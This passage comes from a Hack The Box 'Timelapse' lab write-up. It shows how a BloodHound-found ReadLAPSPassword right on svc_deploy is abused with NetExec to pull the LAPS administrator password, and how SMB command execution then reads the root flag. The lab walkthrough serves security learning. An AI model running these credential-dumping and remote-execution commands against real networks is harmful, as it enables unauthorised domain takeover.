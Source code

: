 <figure><img src="../../../.gitbook/assets/timelapse_laps_priv (1).png" alt=""><figcaption><p>Figure 11: BloodHound reveals the <code>ReadLAPSPassword</code> right of the <code>svc_deploy</code> account.</p></figcaption></figure>

We can use this right away, read the LAPS password and try to read the root flag (Figure 12).

{% code overflow="wrap" %}
```bash
# read the laps password
nxc ldap 10.10.11.152 -u svc_deploy -p svc_deploy_pass -M laps
# grab the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/timelapse_laps_pass_root_flag.png" alt=""><figcaption><p>Figure 12: Reading the LAPS password and trying to snatch the root flag.</p></figcaption></figure>

Surprisingly, the `root.txt` file is not in its usual place! Looking for other user directories under `c:\users\`, we can find the `TRX` account and the root flag 🚩lying on its `desktop` (Figure 13).&#x20;

{% code overflow="wrap" %}
```bash
# check for other users
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'dir c:\users\'
# read the root flag
nxc smb 10.10.11.152 -u administrator -p dc01_pass -x 'type c:\users\TRX\desktop\root.txt'
```
{% endcode %}
